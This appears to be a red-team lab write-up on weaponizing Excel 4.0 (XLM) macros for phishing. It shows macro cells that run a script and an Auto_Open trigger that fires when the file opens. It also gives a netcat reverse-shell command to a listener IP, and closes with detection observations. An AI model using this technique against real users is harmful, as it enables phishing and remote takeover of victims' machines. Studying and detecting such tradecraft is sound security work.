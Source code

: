 # Phishing: XLM / Macro 4.0

This lab is based on the research performed by [Stan Hegt from Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/).

## Weaponization

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](../../.gitbook/assets/phishing-xlm-create-new.png)

We can then execute command by typing into the cells:

```text
=exec("c:\shell.cmd")
=halt()
```

As always the contents of shel.cmd is a simple NC reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](../../.gitbook/assets/phishing-xlm-auto-open.png)

{% file src="../../.gitbook/assets/excel-4.0-macro-functions-reference-1.pdf" caption="Excel 4.0 Macro Functions Reference.pdf" %}

{% file src="../../.gitbook/assets/phishing-xlm.xlsm" caption="XLM Phishing.xlsm" %}

## Execution

Opening the document and enabling Macros pops a reverse shell:

![](../../.gitbook/assets/phishing-xlm-shell-auto-open.gif)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

## Observations

As usual, look for any suspicious children originating from under the Excel.exe:

![](../../.gitbook/assets/phishing-xlm-procexp.png)

Having a quick look at the file with a hex editor, in our case, we can see the suspicious string `shell.cmd`, so for example, if the Macro contained a string `powershell` - you may want to dig deeper:

![](../../.gitbook/assets/phishing-xlm-hex.png)

![](../../.gitbook/assets/phishing-xlm-strings.png)

{% embed data="{\"url\":\"https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/\",\"type\":\"link\",\"title\":\"Old school: evil Excel 4.0 macros \(XLM\) \| Outflank Blog\",\"description\":\"<p>In this post, I will dive into Excel 4.0 macros \(also called XLM macros – not XML\) for offensive purposes. If you grew up in the Windows 95 age or later, just as I did, you might have never heard of this technology that was introduced as early as 1992. Virtually all malicious macro documents…</p>\",\"icon\":{\"type\":\"icon\",\"url\":\"https://outflank.nl/favicon.png\",\"aspectRatio\":0}}" %}

